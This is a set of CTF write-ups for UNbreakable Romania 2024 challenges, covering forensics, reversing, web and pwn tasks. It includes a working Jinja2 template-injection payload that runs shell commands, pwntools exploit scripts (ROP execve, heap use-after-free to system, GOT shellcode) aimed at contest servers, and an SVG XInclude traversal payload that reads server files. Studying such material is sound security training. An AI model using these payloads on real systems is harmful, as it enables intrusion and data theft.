# UNbreakable Romania 2024 - Echipe

## wicked-game
### Flag proof
```wehnd-wdwdaxae-cfewfwg```
### Summary
apktools reveals image of the `android inside` which using stegsolve reveals the flag.
### Details
Unpack the apk:
```bash
java -jar ~/CTF/tools/apktool_2.9.0.jar d wicked-game.apk
```

In the unpack directory we then find: `res/drawable/graphics.jpg`. Which put through `stegsolve` shows the flag.



## sums-up
### Flag proof
```ctf{4cp_4nd_4dp_ch3cksum5_4r3_3v1l_pr00v3_m3_wr0ng_jhunidr}```
### Summary
Exfiltration is done using the checksum field in DNS packets.

### Details
After noticing the that the UDP checksum in all DNS requests is almost always a printable char, we can automate the retrieval as such.
```python
from scapy.all import *

def process_dns(pkt):
    if pkt.haslayer(DNS):
        checksum = pkt[UDP].chksum
        print(chr(checksum), end="")

pcap_file = 'malicious_sums.pcap'

packets = rdpcap(pcap_file)
for pkt in packets:
    process_dns(pkt)
```

## pin
### Flag proof
```CTF{ea875111287b0f7dd1db64c131e59ba2505e7a4601ba7e76ab877627e4161acc}```
### Summary
Follow the constraints in order to craft a fitting input.
### Details
We open up the file in IDA and we notice two important functions, one for reading user input, and one for checking it. The first one is the reading part:



Notice how the 5th throught 8th inputs are chars and all the others are integers.

Now the checking function:



So the constraints are
```
a1 != 2 
a2 != 2
a6 == 82
a7 == 116
a9 == 10
a10 == a11
a3 != 2
a4 != 1
a5 == 36
a8 != 79
```

Keeping them in mind it is very easy to craft a correct input. I used the following:
```
a1 = 1
a2 = 1
a3 = 1
a4 = 2
a5 = $
a6 = R
a7 = t
a8 = P
a9 = 10
a10 = 1
a11 = 1
```



## just-an-upload
### Flag proof
```ctf{F1l3_Upl04d_T0_C2_S3rv3r}```
### Summary
Find the transfered zip in the HTTP traffic and unpack it to find the flag.

### Details
Inside the traffic we find the following response containing a zip file with a text file inside name `flag.txt`.



We export the zip as hex from wireshark and then decode it into a local file, unzip, and that's it.



## admin-star
### Flag proof
```CTF{b02ea28c82cd67d84c25c1d67e54c846352031ce2d8bc964ee7320418a575f42}```
### Summary
Automate the requests and parsing such that you visit nodes fast. Once you're done. Go back to swagger.
### Details

I used this script to automate the process.
```python
import requests
import re

def search(node, children):
    print(node, children, PARENTS)
    if node in VISITED:
        return
    VISITED.add(node)
    if node == DEST:
        print("Done")
        print(PARENTS)
        win()
    for c in children:
        PARENTS[c] = node
        res = requests.get(URL + f"file_navigator?next_node={c}", headers={"super-secret-header": TOKEN})
        children = re.findall(r'next_node=(\d*)\"', res.text)
        print(res.text)
        children = [i for i in children if i not in VISITED]
        search(c, children)

def win():
    path = []
    current = DEST
    i = 0
    while current != START:
        if i == 20: # restrict path length
            exit(0)
        print(current)
        path.append(current)
        current = PARENTS[current]
        i += 1
    print(path)
    exit(0)

VISITED = set()
URL = "http://34.89.170.230:32498/"
TOKEN = requests.get(URL + "session").text.split(": ")[1]
PARENTS = {}

res = requests.get(URL + "file_navigator", headers={"super-secret-header": TOKEN})
START = res.text.split("You are at node ")[1].split(" ")[0]
DEST = res.text.split("reach node ")[1].split("<")[0]
children = re.findall(r'next_node=(\d*)\"', res.text)

print(START, DEST)
search(START,children)
```

After the script is done, one must just go back to the swagger ui, get a token, and do another request to `file_navigator` endpoint like this:



## threat-monitoring
### Flag proof
```
1. spammers-paradise
2. alnera
3. 94.76.245.25
```
### Summary
Pretty straight forward, search the kibana logs for the answer to each question.
### Details

Using the following filter `payload_data : *Host*` we can easily see all HTTP requests and what Host headers is used. Therefore we find one such request.



Knowing the compromised host and it's ip we can look for traffic that has HTTP Referer header but that is not directed at it like this:



And if we expand just the first payload, we see the host where traffic is redirected:



For the third question, we just look at the same traffic we used to answer the first question, but we look for destination IP. This IP was also used to find the answer to Q2.

## bad-dev
### Flag proof
```CTF{4e86532c1b513931d809f9ad01baa4290c8449c4db9628b8ba5b23dbbb932db8}```
### Summary
Jinja2 Template Injection.
### Details
The first thing we notice is the Werkzeug header in the HTTP responses. Therefore it is safe to assume we are dealing with a site using templating. We are greeted by a form in which we have to name a payee and a sum. The sum can only be number in the form, however in the URL bar we can set to whatever we want. We find the `sum` parameter to be vulnerable, therefore the following payload: `/pay?beneficiar=&suma={{7*7}}` yields:



With this in mind we just create payload to execute commands.

I used the following URL to leak the flag: ```/pay?beneficiar=%7B%25+debug+%25%7D&suma={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20flag.txt%27)|attr(%27read%27)()}}```

## not-allowed
### Flag proof
```CTF{94688cdd453093ee28814f908a81a73595e0cdfcb1ef8bbbb83e0a7cf5af611d}```
### Summary
Buffer overflow. No output functions so we can't leak libc. We can however use `execve("/bin/sh", NULL, NULL)`.
### Details

The buffer overflow is pretty huge so we have a lot to work with.
As I've said there are no output functions so leaking libc is not an option. We can however use syscalls. In order to set rax to the execve syscall id, we use a sequence of ["inc al", "ret"] multiple times until we get it to the value we want. We use various other ROP gadgets to set RSI, RDX to NULL and RDI to the buffer set by the `wish` function placed inside the binary to help us.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./not-allowed")
context.terminal = ["tmux", "splitw", "-h"]
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        # gdb.attach(r, "b *main+128")
    else:
        r = remote("34.141.109.85", 30973)

    return r

def main():
    r = conn()
    offset = 40
    rop = ROP(exe)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    inc_al = 0x00000000004011ce
    zero_rax = 0x0000000000401161
    mov_rsi_rax = 0x00000000004011c4
    shr_edx = 0x0000000000401171
    syscall = 0x00000000004011cc
    EXECVE_IDX = 0x3b
    bash = 0x404070 + 13 # Here you go ... : /bin/bash
    payload = cyclic(offset) +  p64(exe.sym.wish) + p64(zero_rax) + p64(mov_rsi_rax) + p64(shr_edx) + p64(inc_al) * EXECVE_IDX  + p64(pop_rdi) + p64(bash) + p64(syscall)
    print(len(payload))
    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

## heeaap
### Flag proof
```CTF{9b93e344611c1fa883es647n5a26130s23124ae5e56bc5005a319a710ae55a92}```
### Summary
Use after free. We can free a `ctf` then add the `description`, and the new `description` pointer will be the actual old `ctf` pointer. However when writing a description we are allowed to write more, allowing us to overwrite the function that prints a ctf to whatever we want.
### Details

First let's analyze the binary.



Notice how we are allowed to read more when adding a description, adn how we can never have the abs(no_ctf - no_descriptions) be more than 1.




In the rest of the cases we can see that we can only free the most recently added ctf or description, and that to print, we must have at least 1 ctf and 1 description, but we can use whatever index we want. Here is where the use after free comes in.
Esentially the flow is something like this. Add a ctf, add a description, add a ctf, free it, add a description (this is where the freed ctf will be used). This last description is where we place our payload. We write the string to be "/bin/sh" then we overwrite the function pointer placed at offset 56. We add the first one dummy ctf and one description such that the check for printing won't fail.

Final script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./heap")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("34.159.3.253", 31862)

    return r
r = conn()

def add_ctf(name):
    r.recvuntil(b"Choose: ")
    r.sendline(b"1")
    r.sendlineafter(b"Enter ctf details: ", name)

def add_desc(desc):
    r.recvuntil(b"Choose: ")
    r.sendline(b"2")
    r.sendlineafter(b"Enter ctf description: ", desc)

def delete_ctf():
    r.recvuntil(b"Choose: ")
    r.sendline(b"3")

def print_ctf(index):
    r.recvuntil(b"Choose: ")
    r.sendline(b"5")
    r.sendlineafter(b"Select index: ", f"{index}".encode())


def main():

    add_ctf(b"dummy")

    add_desc(b"dummy")

    add_ctf(b"dummy")

    delete_ctf()

    add_desc(b"/bin/sh;"*7 + p32(0x401110)) # address of system

    print_ctf(1)

    r.interactive()


if __name__ == "__main__":
    main()
```

## harder-assembly
### Flag proof
```CTF{9b93e344611c1fa883ef647c5a26730823124ae5e56bc5005a319a710ae55a92}```
### Summary
Write short assembly. Use the GOT to store code such that we bypass the restriction.
### Details
Looking at the binary we see that the GOT is set to be RWX so we can store code there. Two entries are left empty, giving us space for 16 bytes of shellcode. We can also use the exit entry in the GOT to store stuff since it won't be called unless we screw up. I stored "/bin/sh" there. And the code in the two entries i mentioned. We can write byte by byte the all our payload and just call main again. Write one byte, call main, write second byte, call main and so on.


Final script:
```python
from pwn import *

exe = ELF("./harder")

context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # gdb.attach(r, 
        #            """b *main+288""")
    else:
        r = remote("34.89.210.219", 30226)
    return r

def main():
    r = conn()

    r.clean()
    # main 0x0040125b
    # syscall 004012b2
    CALL_MAIN = "push 0x0040125b; ret;"

    start = 0x00404048 # exit got, it is not written unless the program exits => we can use it
    # write /bin/sh byte by byte
    bin_sh = b"/bin/sh"
    for b in bin_sh:
        payload = f"mov byte ptr[{start}], {b};" + CALL_MAIN
        payload = asm(payload)
        print(len(payload))
        r.sendline(payload)
        start += 1
    
    start = 0x00404008 # the two empty got entries
    shellcode = asm("mov al, 0x3b; mov edi, 0x00404048; push 0x004012b2; ret;")
    print("this", len(shellcode))
    for b in shellcode:
        payload = f"mov byte ptr[{start}], {b};" + CALL_MAIN
        payload = asm(payload)
        print(len(payload))
        r.sendline(payload)
        start += 1

    # last piece, where we call the stored shellcode
    payload = asm("xor rdx, rsi; xor rsi, rsi;mov rcx, 0x00404008; call rcx;")
    print(len(payload))
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

## secrets-secrets-secrets
### Flag proof
```ctf{fb2570e300e4cf45c27011642df6f894add029290dd6451b5cb7a8f505523337}```
### Summary
Reverse engineer python. Print the expect passphrase.
### Details

Renaming just one variable it's very to see that it is compared with the user input. Therefore just running the script does the trick.



Resulting text is in binary which we can easily decode with cyberchef.

## secure-communications
TODO

## file-factory
TODO

## profile-pic
### Flag proof
```ctf{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}```
### Summary
include text file `flag.php` in the svg. When converted, resulting png will show text from the file.
### Details

Based on this [article](https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/) I found that one can do that and that it worked even on my local `rsvg-convert` binary so I tried it and it worked.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,204,204);" />
  <text x="0" y="25">
    <xi:include
      href=".?../../../../../../../var/www/html/flag.php"
      parse="text"
      encoding="ASCII"
    >
      <xi:fallback>haide</xi:fallback>
    </xi:include>
  </text>
</svg>
```
This file unfortunately shows us just a few letters.



In order to address this we just reduce x to move further right.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,204,204);" />
  <text x="-40" y="25">
    <xi:include
      href=".?../../../../../../../var/www/html/flag.php"
      parse="text"
      encoding="ASCII"
    >
      <xi:fallback>haide</xi:fallback>
    </xi:include>
  </text>
</svg>
```



Now, we just need to reduce x several times, until we manage to note down the whole flag.

## wicked-monitoring
TODO

## wicked-firmware
TODO